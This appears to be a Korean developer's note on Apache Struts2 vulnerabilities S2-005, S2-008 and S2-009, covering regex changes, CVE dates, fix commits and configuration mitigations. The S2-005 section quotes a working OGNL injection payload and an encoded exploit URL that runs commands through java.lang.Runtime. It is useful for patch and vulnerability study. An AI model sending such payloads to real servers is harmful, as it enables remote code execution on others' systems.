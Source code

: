 == Struts2

참고 : OGNL 명세 www.ognl.org/2.6.9/Documentation/html/LanguageGuide/expressionEvaluation.html  

2.1.8 (2009/09/30)  : "[[\\p{Graph}\\s]&&[^,#:=]]*"  
2.2.1 (2010/08/16) :   "[a-zA-Z0-9\\.\\]\\[\\(\\)_'\\s]+"  
2.3.1.1 (2011/12/25)  : "[a-zA-Z0-9\\.\\]\\[\\(\\)_']+"  
2.3.1.2  (2012/01/22) :  "\\w+((\\.\\w+)|(\\[\\d+\\])|(\\(\\d+\\))|(\\['\\w+'\\])|(\\('\\w+'\\)))*";  

=== s2-005, CVE-2010-1870
http://struts.apache.org/development/2.x/docs/s2-005.html  

*   2010년 5월31일날 보고. :http://securityreason.com/exploitalert/8435[http://securityreason.com/exploitalert/8435]
*   2010년 6월 20일날 소스 고침: http://svn.apache.org/viewvc?view=revision&revision=956389[http://svn.apache.org/viewvc?view=revision&revision=956389]
*   2010년 8월16일에 release된 2.2.1에 포함 : http://struts.apache.org/2.2.1/docs/version-notes-221.html[http://struts.apache.org/2.2.1/docs/version-notes-221.html]

http://blog.o0o.nu/2010/07/cve-2010-1870-struts2xwork-remote.html 참고  

#_memberAccess['allowStaticMethodAccess'] = true#foo = new java .lang.Boolean("false")#context['xwork.MethodAccessor.denyMethodExecution'] = #foo#rt = @java.lang.Runtime@getRuntime()#rt.exec('mkdir /tmp/PWNED')  

http://mydomain/MyStruts.action?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.den  
yMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1  

\u0023 = '#'  

==== 관련 Commit

2010/ 6/20  
https://github.com/apache/struts2/commit/0c367776762b25c567b415ac4c2b0e48042cf34f  
https://github.com/apache/struts2/commit/3008f2609e59c9aba7ead68c7be6fdcb075520f6  

http://sebug.net/exploit/19954/[]

=== s2-008  

http://struts.apache.org/development/2.x/docs/s2-008.html

http://www.brucephillips.name/blog/index.cfm/2011/2/19/Struts-2-Security-Vulnerability--Dynamic-Method-Invocation 참고  

<constant name="struts.enable.DynamicMethodInvocation" value="false" />   
struts.enable.DynamicMethodInvocation = false  

Strict DMI mode  

==== 관련 commit

2012/12/24 : https://github.com/apache/struts2/commit/41f90ae39d0783f64641726e7e6b4741663c04bd  

=== s2-009 , CVE-2011-3923

http://struts.apache.org/development/2.x/docs/s2-009.html  

http://packetstormsecurity.com/files/cve/CVE-2011-3923  

'While investigating SEC Consult's Struts2 bugs (cool bugs, btw!), I've realized that due to the fact that Struts2 still allowed OGNL expression evaluation via parentheses I could evaluate OGNL expressions stored in action attributes (HTTP parameter values effectively), resulting in arbitrary code execution in Struts2 applications with default configuration (i.e. using the "params" interceptor), very similar to  CVE-2010-1870..  

http://blog.o0o.nu/2012/01/cve-2011-3923-yet-another-struts2.html  

공격 코드는 : http://www.securityfocus.com/bid/55165/exploit , http://packetstormsecurity.com/files/120908/struts_code_exec_parameters.rb.txt  
관련포럼: http://seclists.org/bugtraq/2012/Aug/135  

==== 관련 commit
2012/01/19 :  https://github.com/apache/struts2/commit/2c1eb6bb57f90db7287fc3ed0086793d0a43fe9e  
 
